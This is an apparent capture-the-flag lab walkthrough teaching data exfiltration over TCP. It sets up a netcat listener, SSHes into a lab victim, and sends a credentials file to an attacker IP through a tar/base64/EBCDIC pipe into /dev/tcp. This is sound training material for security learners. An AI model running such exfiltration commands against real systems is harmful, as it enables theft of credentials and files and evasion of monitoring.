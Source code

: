 Communication over TCP requires two machines, one victim and one attacker machine, to transfer data. Let's use our network environment to practice sending data over  TCP. To establish communication over TCP, we require two machines: the victim1.thm.com machine is the victim and the JumpBox, jump.thm.com, is the attacker's machine.

First, we need to prepare a listener on the **JumpBox** on a port you specify. In our case, we choose port 8080.

- **Listening on port TCP/8080 in the JumpBox**

```shell
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)

	    
```

From the previous command, we used the nc command to receive data on port 8080. Then, once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential: thm:tryhackme. Note that to connect to the victim1 from the JumpBox, we can use the internal domain name as follows,



- **Connect to the victim from the JumpBox**

```shell
thm@jump-box$ ssh thm@victim1.thm.com
	    
```

We can also connect directly from the AttackBox using port 2022 as follows,

- **Connect to the victim from the AttackBox**

```shell
root@AttackBox$ ssh thm@MACHINE_IP -p 2022
	    
```

We have the required data ready to be transmitted on the victim  machine. In this case, we have a sample file with a couple of  credentials.

- **Checking the creds.txt file on the victim machine**

```shell
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
	    
```

Now that we have the credential text file, we will use the TCP socket to exfiltrate it. **Make sure the listener is running on the JumpBox**.

- **Exfiltrate Data over TCP Socket from the victim machine!**

```shell
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
	    
```
